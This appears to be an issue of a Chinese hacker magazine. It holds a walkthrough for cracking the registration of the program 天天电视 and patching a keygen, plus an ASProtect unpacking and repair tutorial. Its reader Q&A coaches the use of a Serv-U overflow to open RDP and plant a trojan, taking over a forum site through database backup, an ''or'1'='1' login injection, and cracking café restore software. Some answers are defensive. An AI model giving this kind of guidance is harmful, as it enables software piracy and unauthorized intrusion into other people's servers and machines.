有了上面的线索，我们现在用 OD 来调试，主要是找找看它是怎么找到注册机并把它关了的。想到关闭程序应该用到结束进程 API，于是在 OD 命令行输入断点命令，如图2所示。

在模块间调用里看到有一些 `MFC42.****` 信息，说明程序是 MFC 封装的。用 MFC 按钮消息入口查找工具，运行《天天电视》，点击注册，弹出注册对话框后，把查找工具的瞄准器拖到注册按钮上，如图3所示。

然后点击“查找”按钮，工具显示函数入口地址（如 `0x73D4AAB0`）。在 OD 里按 `Ctrl+G` 跳到该地址，如图4所示。

### Step 4：析流程

按下确定后会跳到目标地址，下断点后运行，在注册码输入任意数字并点击注册，程序在 `00405C3D` 一带断下。继续往下看到取 C 盘硬盘序列号的代码，如图5。

我们在命令行执行 `dir` 可看到卷序列号，例如 `2B4F-1605`。去掉中间横杠后转10进制得到 `726603269`，就是机器码来源。

```text
C:\>dir
驱动器 C 中的卷标...
卷的序列号是 2B4F-1605
C:\ 的目录
```

### Step 5：剖代码

```text
00405C7F: 6A 0A          push 0A
00405C81: 50             push eax
00405C82: FF75 E4        push dword ptr ss:[ebp-1C]
00405C85: FF15 FC0A4000  call dword ptr ds:[<&MSVCRT._itoa>]
00405C8B: 8145 E4 BE7AAC05 add dword ptr ss:[ebp-1C],5AC74BE
00405C92: 8D45 C0        lea eax,dword ptr ss:[ebp-40]
...
00405CE8    8B8778010000    mov eax,dword ptr ds:[edi+178]
00405CEE    50               push eax                // js1="123456" ...
00405CEF    FF15 34A44000    call dword ptr ds:[<&MSVCRT.mbscmp>] // mbscmp
// 进行比较，错误的话，底下就会跳走。
```

到这里就找到了真的注册码，只要我们在 `00405CE5` 处下断，然后在堆栈或内存中就都能看到真的注册码了。

### Step 6：改注册机

上面完成的是找到真的注册码，我们还有一个任务就是要看看以前的那个注册机为什么不能用了。用 OD 把 5.29 版的注册机加载，直接按 F9 运行程序，在命令行下 `BPX *` 来到模块调用，点右键选择“在每个命令中设置断点”，然后在程序里面输入我们的机器码，这里再回到注册机的时候会被中断下来，取消断点并按 F9 运行下去，一直到看到程序主界面后输入机器码，点生成注册码，这时 OD 停在了下面这个位置：

```text
00401419    E8 E0120000    call <jmp.&MFC42.#6334>
```

到查看断点，按住 DEL 不放删除所有断点，然后在刚才的位置重新下断点，一直单步 F8 下到这个位置：

```text
0040147A    8944241C    mov dword ptr ss:[esp+1C],eax
0040147E    05 C874AC05 add eax,5AC74C8   // 这里的 EAX 里就是我的机器码。
```

可以看到这里加上的是 `5AC74C8`，而在上面我们分析的 6.07 版程序里面加的却是 `5AC74BE`。难道问题就出在这里？不管那么多，先把 `5AC74C8` 改成和程序里面的一致再说。修改好后，按 F9 接着运行下去，在注册机里可以看到生成的注册码是 `399309eff1fc49354657c2b90fe9e4a9`，也就是和刚才我们跟出来的一样了。看来作者这次升级也就是改了这里才导致注册机失败的吧。那这里把修改后的注册机保存为 `KEYGEN6.07.EXE`，然后用资源黑客修改注册机的标题为 6.07 版就完工了。

### Step 7：做总结

OK，到此我们的任务全部完成了。就整个过程做下总结：我们在文章中查到注册的函数入口，直接定位过去，跟代码，跟 API 函数了解代码的用途，找到机器码的取法，再跟下去可以看到真的注册码。总体来说思路比较顺，也没什么特别难懂的地方，大家做练习，下期会继续加大难度的。

> 声明：本文只作技术研究，请勿用于非法行为，多多支持国产软件。（文章中用到的工具 MFC 按钮消息入口查找工具.exe、PEiD、OD 以及天天电视 6.07 版软件，在光盘中有收录。）

飘舞点播：飘舞兄弟接着上期杂志中的教程写了这个实战稿。好好温习上期的知识，再用这期的教程做练习，相信你很快就能熟悉破解的技巧。小编还要说一句，其实破解不是很难，多注意程序的提示和处理过程。时不时地想想你自己要写这么个程序该怎么做，对你的破解会有启发作用的。

## 手动脱壳+修复之ASProtect 1.22–1.23 Beta

最近研究脱壳，已经攻破了很多压缩壳。感觉脱壳很过瘾，不过脱压缩壳没什么技术含量，所以学习了一下加密壳。经过一阵子翻箱倒柜，找到了 Aspack 的加壳程序。嘿嘿，又是一个压缩壳！还是别浪费时间了吧，赶紧学习！咔咔咔……猛敲键盘。

首先，用 PEiD 查看了一下。啊？怎么是 Aspr？这可是加密壳啊！只不过版本是 1.22–1.23 beta 的，有点老。不过，既然正要学习加密壳，那就从这个壳开始吧。（图1）

用 OD 载入它，异常选项如下设置，非法访问内存不打钩，因为一会儿要用到这个异常来脱壳（图2）。

设置好异常，载入程序，载入后停在这里（图3）。早就听说这壳有异常，确实如此啊，我经过了 27 次异常（不同机器经过的异常次数是不同的），最后一次异常来到这里（图4）。在 `0012FF68` 这句上单击右键选择反汇编窗口跟随，然后来到 `00DA00C4`，按 F2 下断点，然后 Shift+F9 运行，程序停在 `00DA00C4`。

下面的脱壳过程很爽，就是这里要用到 OD 异常设置里的那个没打钩的选项。ALT+M 打开内存镜像，在 `00401000`，也就是代码段这行设置内存访问断点，然后按 F9 运行，结果就直接停在 OEP！

`00442CE8  55 PUSH EBP // OEP`

马上拿出 Lord 直接完整转存到 PEDUMP（注意这时不要关闭 OD）（图5）。运行 DUMP 的程序出现错误，打开 Import REC，在 IAT 里面输入 `0042CE8`，也就是真的 OEP 了。点击“自动搜索 IAT”→“显示无效函数”→“追踪级别1”（图6）。追踪后还剩下 8 个未识别的，再用 Import REC 的 ASProtect 1.22 插件继续追踪后全部有效！→“修复抓取文件”，再运行程序还是有错误（图7）。

```text
ASPACK.0043F66A
00DBC8F8   833D 6036DC00 00  CMP DWORD PTR DS:[DC3660],0
...
```

哎呀……没办法，打开 OD 自己修复吧。用 OD 加载已脱壳程序，F9 运行后出错，查看堆栈信息（图8）。在 `0012FFB0` 处用鼠标右键单击选择反汇编窗口跟随。

```text
00442D61   FF15 10494400   CALL DWORD PTR DS:[444910]
00442D67   A1 30564400     MOV EAX,DWORD PTR DS:[445630] ...
```

向上查看 `00442D61 DS:[00444910]=00DBC9A0`。此时，来到没脱壳的那个程序的 OD 调试窗，在没脱壳的程序调试窗内按 Ctrl+G 输入 `00442D61`，确定，然后按 F2 下断→F9，来到这里：

```text
00442D61   FF15 10494400   CALL DWORD PTR DS:[444910] // 按F7进入
00DBC9A0   833D A835DC00 00 CMP DWORD PTR DS:[DCA35A],0
... // F7到这里
```

切换到脱壳后程序的 OD 调试窗那里，同样到 `00442D61` 这里将此处的值 `00DBC9A0` 修改为 `00442BEC`（图9）。

然后点击右键选择数据窗口中跟随地址（图10），再用右键点击地址 `00444910` 选择复制可执行文件，保存即可。

运行保存的文件，晕！还是有错误（图11），没办法，接着来！

用 OD 载入已脱壳程序，F9 运行后出错，查看堆栈信息（图12）。在 `0012FDFC` 处点鼠标右键选反汇编窗口跟随，来到：

```text
0043F5DC   FF15 08494400   CALL DWORD PTR DS:[444908]
0043F5E2   E9 83000000     JMP dumped.
0043F66A ... DS:[00444908]=00D9C8F4
```

切换到未脱壳程序的调试窗：`0043F5DC` 下断 F2，然后按 F7 进入。

这里把脱壳后程序的 `DS:[00444908]=00DBC8F4` 改为 `0043F6D5`，然后按照上面的保存方法保存。运行保存的程序，还是出错，需再次修复！（图13）

再载入脱壳后的程序，然后按 F9 运行，查看堆栈信息如下（图14）。

```text
0043F66A > FF15 0C494400  CALL DWORD PTR DS:[44490C]
0043F670   82 01          MOV DL,1
... DS:[0044490C]=00D9C8F4
```

```text
0043F66A   FF15 0C494400  CALL DWORD PTR DS:[44490C]
00DBC924   833D 6036DC00 00 CMP DWORD PTR DS:[DC3660],0
00DBC94A   C3             RETN
```

修复方法跟上一个一样，向下找一个 RETN：`0043F6D5 C3 RETN`，把这个 `0043F66A DS:[0044490C]=00D9C8F4` 改成 `0043F6D5`，保存后再运行，程序可正常运行。

本文的重点是手动修复。脱壳确实很爽，不过修复太恐怖了……但还是挺过来了。这个是老版本，新的还不清楚会怎样呢，以后就更不用说了。不过我已经做好了迎接准备，希望大家也不要怕修复，多多实践吧！

> ［文中的 Aspr 壳、OD、PEiD 在光盘中有收录。］

## NULL与0的区别

```c
#ifndef NULL
#ifdef __cplusplus // 这个是指示用C++来编译程序
#define NULL 0
#else
#define NULL ((void *)0)
#endif
#endif
```

所以说：它们没有区别，只不过在 C 里会做一个强制类型转换。

> 编辑点评：Aspr 脱壳并不难，麻烦的是修复步骤。作者在这里讲解了 Aspr 壳的手工脱解和修复操作，思路跳跃比较大，希望大家能静下心来慢慢地学习。文章的主要亮点是对脱壳后的程序进行手工修复，希望对你有用！

## NoHACK 论坛帖吧

HI，大家好。帖吧又与大家见面了。在这个美好的5月里，大家的技术学得怎么样了？能不能自己独立地抓肉鸡玩呢？不过抓不到也别灰心、丧气！因为最近肉鸡行业不景气，即使老鸟也轻易抓不到的！所以抓不到肉鸡不代表大家学得不好。只要按照我们杂志上各高手的文章操作，你的技术就一定能迅速提高。我们要从中学习方法、思路，切忌生搬硬套；因为网络环境实在是太复杂呀！

5月里大家在论坛玩得是否开心？你的问题是否得到相关版的版主第一时间回复？在论坛里是否找到了技术上共同进步的好友？如果你的帖子特别好，就有机会在这里发布，向各路朋友展示你的才华哦！好了，不“墨迹”了，我们直接走进论坛，走进《黑客手册》，走进万万千千的帖子，看看有什么好玩的啊！

## 一、小菜最感兴趣的问题

- 1. 如何能不花钱、不费事得到QB？
- 2. 自己机器中毒了，怎么杀不掉啊！
- 3. 每期都看杂志，但是我不会用论坛啊！

（各条后附论坛地址链接，包含 nohack.cn/bbs/thread-5557-1-1.html、thread-3270-1-1.html、thread-287-1-1.html）

## 二、小菜能得到精美奖品的途径

- 1. 制作精美“自由独行的边缘文化”海报和涂鸦本可获赠品。
- 2. 写点建议也能得到超级酷的“自由独行的边缘文化”T恤。

## 奖励办法

- 1. 建议提得好、切合实际且有建设性，可得到采纳并获奖。
- 2. 重在参与，随机选取5位幸运者。

## 三、小菜想知道的版主样子

- 1. 介绍版主“lopo”等相关帖子。
- 2. 其它热门强帖推荐。
- 3. 自拍MM相关推荐帖。

好了，关于论坛帖吧本期内容到这里结束。欢迎大家继续投稿并提出建议与意见。

## 写在前面

本期主持：小龙猪

这是第二次做这个栏目，感受比较深刻。可以说，每个对黑客技术的爱好者，都是从提问走过来的。我们平时可以借助 Google 和 Baidu 来解决一些实际问题，同时对于一些棘手的入侵和安全问题，欢迎大家通过《黑客手册》的 Q&A 这个栏目平台和我们交流，我会争取给大家一个满意的答复。可能很多朋友觉得提问很丢面子，或有时候不懂也不太爱交流，其实许多人就这个问题都说过：“三人行，必有我师焉。”通过提问得到收获的不光是你自己，还有那些有着同样问题的以及帮助你解答的朋友。希望大家踊跃到论坛的“菜鸟解惑”进行发言，可以直接在论坛给我发消息，我的 ID 是 yizhigu。如果存在难以解决的问题，即使我不懂，我也会请教其他朋友，给你一个满意的答复。最后一句话：学问学问，不光要学，还要懂得去问，还要敢于去问！

## 论坛代表性问题收集

> Q：求助：如何用命令打开自己机子上的 telnet 服务？如果光是用 net start telnet 命令好像打不开啊！它提示：发生系统错误 1058。无法启动服务，原因可能是已被禁用或与其相关联的设备没启动。

A：Windows XP 在默认状态下，telnet 服务是禁用的。对于禁用的服务，是不提供启动参数的。解决的方法是先利用 sc 命令把服务设为自动：`sc config tlntsvr start= auto`（tlntsvr 是 telnet 服务名），然后使用 `net start telnet` 或者 `sc start tlntsvr` 命令就可以开启 telnet 服务了。这里只是给某些新手朋友的提示，对于特定服务无法开启的解决方法是先设置服务类型，特别是灵活运用 sc 命令。

> Q：求助：关于文件夹的安全问题。我想问下，在 C 盘的所有文件夹，只要你点鼠标右键选择属性，里面会出现常规、共享、安全、自定义4个选项，而在其他盘符中，文件夹属性里却没有安全这一项，我想问下怎么在其他盘符文件夹属性里加上安全这一项。

A：你的 C 盘的分区格式是 NTFS，所以存在安全项目。如果需要在其他盘符设置安全，可以在命令提示符下输入：`convert x: /fs:ntfs`，重新启动后自动转为该分区格式转换程序。利用 Windows XP 的安装光盘也可以自定义转换磁盘分区格式。若是如此操作会使磁盘文件丢失，我们可以利用 PartitionMagic 这款软件进行无损坏转换，在对应分区上右键的弹出菜单里进行转换就可以了。

> Q：紧急提权问题，快来帮我看看！！！我已经利用 ftp 加了管理员了，但对方好像没开3389。我想放个鸽子，或者放个3389安装程序上去，命令方式是怎么样的？我不知道那里的参数怎么写，只会用加管理员的命令，对方是 servu5.4。

A：既然 su 的本地溢出可以提权成功，并且你也利用漏洞添加了管理员，所以你这个问题根本谈不上是提权，su 溢出后已经是最高权限了。假设你的提权工具为 su.exe，开3389工具为 opents，所在目录均为 `D:\website`，执行 `D:\website\su.exe "d:\website\opents"` 就可以让服务器开启3389了。至于木马服务端是一样的，只需要利用溢出工具执行到相对目录的文件就可以了。

> Q：请高手帮忙：本地连接被隐藏了！我所在的网吧里的电脑系统里的本地连接被那个管理员全部隐藏起来了。要怎么才可以恢复它，有软件可以用吗？或者什么办法。网吧有还原精灵。

A：运行 `services.msc`，或者在“我的电脑”右键的管理项目进入服务管理，查找如下服务：Plug and Play。该服务的功能是识别硬件修改。把已禁用的服务类型改为自动，并且启动该服务。或者通过命令行工具启动该服务，具体命令如下：`sc config plugplay start= auto` 和 `sc start plugplay`。若以上方法不能解决，可能是有些 BT 的管理员把本地连接对应到本地的动态链接文件及注册删了，我们可以依次执行 `regsvr32 Netcfgx.dll`、`regsvr32 Netshell.dll`、`regsvr32 Netman.dll`，注册这三个组件，破解掉还原精灵重新启动就可以看到网络连接了（还原精灵破解可以利用还原精灵全版本破解器）。一般情况下第一种方法就可以解决。

## 读者提问精选

> Q：最近我和几位朋友的电脑被人入侵后，在互联星空利用我们的 ADSL 进行消费。这让我们很恼火，可是装了杀毒软件后还是不能解决问题，请教如何才能保护自己的 ADSL 密码不被黑客利用？

A：首先确保你们的安全意识，要在系统打全安全补丁后再进入非大型网站进行浏览，以防网页木马；下载文件后进行捆绑检测、查毒和跟踪分析。还要掌握一些查杀木马的常识，这些可以从“无毒有偶”栏目里积累经验和技巧。最后说一下如何从 ADSL 密码上进行保护。

- 1. 如果是利用路由器共享上网的朋友，一定要修改默认的管理密码，最好利用路由管理功能设置访问端口、禁止外网访问。因为内网环境下，成为肉鸡后黑客惯用的手段就是端口映射后建立代理，只要设置强悍的路由管理密码，才能从根本上防止泄露。
- 2. 多数被利用 PC 基本上是 ADSL 拨号环境下用户，黑客只需要上传一个 Dialupass 工具在命令行下执行查看密码的操作就能得到 ADSL 账号和密码。这个工具是利用系统自带的 PPPoE 拨号工具的缺陷，从 `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\...` 读取拨号保存的信息，工具对应解密后返回真实值。建议在网络连接器里删除建立的系统连接，并删除注册表下对应的账号键（`HKEY_LOCAL_MACHINE\SECURITY\...`），安装反黑安全专用拨号程序。

> Q：自从 QQ 推出安全中心以后，我跟朋友之间互传文件都只能打包压缩才能进行传输，非常不方便，请问有什么方法可以直接接收 exe 文件？

Q：在 QQ 的安全设置里面可以看到，安全传输分为三个级别，但是即使是最低级别，也必须强制安装扩展。解决的方法很简单，就是在 QQ 安装程序所在的目录的 dat 文件夹下找到 cute.1 这个文件，直接用记事本打开，基本信息如下：

```ini
[config]
FileSuffix=bat;
FileSuffix=chm;
FileSuffix=com;
FileSuffix=exe;
FileSuffix=hlp;
FileSuffix=htm;
FileSuffix=html;
FileSuffix=js;
FileSuffix=msi;
FileSuffix=reg;
FileSuffix=scr;
FileSuffix=vbs
```

程序阻止的扩展名全部收录在此，如果要设置本地允许接收 exe 类型文件，直接去掉 `FileSuffix=exe` 这一行，其它全部删除也行。如果你要玩点小花样，例如禁止接收 rar 格式文件，可以加上这么一行：`FileSuffix=rar`。当别人发送 rar 格式文件的时候也会被安全中心阻止，这下你的朋友傻眼了吧。

Q：我通过动网默认数据库管理员的前后台用户名和密码，可是不管在发帖还是自定义头像的地方，都不能上传成功，发帖页面的上传已经被删除，而定义头像的地方让人郁闷的是格式检测非常严格，任何 asp 木马，包括一句话和合并数据库的木马，改成 jpg 后都提示格式错误；而真实的图片是可以上传的，首页还有个管理员页面，不过不能利用动网那个管理登录，`'or'1'='1`也不行，非常想拿下的网站，望解决！

A：你这种情况我也遇到过，好像是利用了一种比较严格的检测组件，光网上传类组件就比较难搞。不过既然有其他管理页面，完全可以让动网后台帮我们拿到。你可以利用动网后台的数据库备份功能，把首页得到的管理页面备份成 jpg 或者 txt 格式，然后根据自己选择保存的路径访问，这样可以通过数据库连接文件得到管理后台的信息，如果是 SQL 数据库，还可以得到数据库的连接密码。一般情况下入侵的思路要灵活，一条路走不通，我们就换条路走。

Q：最近我隐藏了几份重要的文件，可是当我打开工具下的文件夹选项，重新选择“显示所有文件和文件夹”后还是无法查看隐藏文件，我再次进到该项目下发现又变成了“不显示隐藏文件和文件夹”，我用了搜索也不行，请问如何解决。

A：运行中输入 regedit 进入注册表，依次展开进入下面键值：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL`，把 CheckedValue 的值修改为 1 就可以了。这个值为 0 和 2 都不能显示隐藏文件。其实搜索功能是可以查找隐藏文件的，需要在高级选项里选择“搜索隐藏的文件和文件夹”，如果你忘记了文件名，但是扩展为 txt，那么搜索 `*.txt` 并定位到该文件所在的目录就可以搜索出来了。

Q：现在在学习注册表知识，经常要打开注册表里查找和修改一些项目，可是 Windows XP 的注册表有记忆功能，我在重新打开的时候它就会自动进入上次最后打开的键。请问有什么方法可以让注册表不记忆上次的项目？

A：将注册表编辑器定位到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit`，右键单击它，选择“权限”，在权限对话框中将“完全控制”和“读取”选项勾选为“拒绝”，然后在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets` 项下新建一个 `Favorites` 项，再按前面方法将 `Regedit` 项的权限设为拒绝，这样注册表就“失忆”了。

Q：我用《黑客手册》上介绍的方法嗅探到了本地盗号木马通过25端口发送的信息，可是得到信箱的密码是 `cXF6aHVhbnlvbmc=`，我试过登录该信箱失败，请问这是什么原因？

A：这个是用 Base64 加密过的密码，显然你的嗅探工具不支持 Base64 还原，我们利用一个格式转换工具就可以了，这里我为你提供一个强大的转换工具，支持多种编码转换，你这里的编码我还原过来就是 `qqzhuanyong`，显然想偷你号的人很白痴。

## 我对工具书评

## 我对文章评

> 黑客手册5月回执栏目来信：  
本辑我喜欢或者不喜欢的文章，请点评——  
文章：29 / 喜欢 / 点评：刺痛满身的刺可能就是用来注入的吧！？  
//小编：注入新解，“我党刺猬”扎响高人。  
文章：46 / 喜欢 / 点评：俺老大的文章，不喜欢她会扁人的，这个问题确实经典！  
//小编：黑社会关键词——老大、扁人，“剑心”到底吃了多少保护费？

> 来自广州的天才学客少年：//该昵称让小编肃然起敬。  
— 对来稿文章的读后感：  
例如：文章名称：《为广东互联网星空做一次清道夫》。  
我觉得每位黑友应该向作者学习，懂得以黑制黑，从而维护网络的安全。//该倡议值得推广。

> Nohack 论坛 ID 为 myth456 的感动发言：  
一直没有时间好好地在大街上转转了。  
今天买了本《非安全——黑客手册》，很是喜欢，晚上就来此看看。希望你们越办越好，生日快乐！不知道这是4月几号写的？  
但是我会在发工资后买以前出过的全部书籍！我也会订购以后的书籍的……我会支持到我的呼吸停止！  
//嘟嘟版块速递小子在此管理版块发的帖子：“奖，回执有奖，嘟嘟有奖。”看到 myth456 的回帖，说她很感动，回来与编委共赏。编评也跟泪汪汪的，并且祝福 myth456 能长命百岁，争取活到150岁。

## The end